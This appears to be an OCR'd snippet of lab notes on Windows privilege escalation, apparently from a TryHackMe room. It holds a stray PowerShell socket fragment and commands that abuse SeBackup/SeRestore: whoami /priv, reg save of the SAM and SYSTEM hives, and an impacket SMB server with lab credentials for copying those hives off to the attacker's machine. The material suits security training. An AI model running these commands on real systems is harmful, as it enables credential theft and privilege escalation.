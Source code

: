 $s.Send($rpcType)

$s.Send($length)

$s.Send($command)

  

1. User privileges

  

# check privileges

# List of all privileges: [https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)

# Check privileges for escalation: [https://github.com/gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)

whoami /priv

  

# Privilege: SeBackup / SeRestore

  

# Backup SAM and system hashes

reg save hklm\system C:\Users\THMBackup\system.hive

reg save hklm\sam C:\Users\THMBackup\sam.hive

  

  

  

# Copy hive files to our own machine

  

# Start SMB share on our own machine

mkdir share

python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share

  
